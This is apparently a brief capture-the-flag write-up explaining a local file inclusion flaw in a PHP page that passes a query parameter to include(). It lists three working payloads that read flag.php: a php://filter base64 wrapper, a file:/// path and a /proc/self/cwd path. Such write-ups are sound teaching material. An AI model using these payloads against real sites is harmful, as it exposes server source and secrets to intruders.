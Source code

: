 ## Basic LFI through PHP filters

* The `include()` function is kinda terrible, and vulnerable to LFI in a variety of ways.
* Our query parameter is passed in, so if we changed the page we want to look at, we can use [php filters](https://www.w3schools.com/php/php_filter.asp) or even just directory traversal to leak the flag

&nbsp;

The following solutions work
* `?include=php://filter/convert.base64-encode/resource=flag.php`
* `?include=file:///var/www/html/php/flag.php`
* `?include=file:///proc/self/cwd/php/flag.php`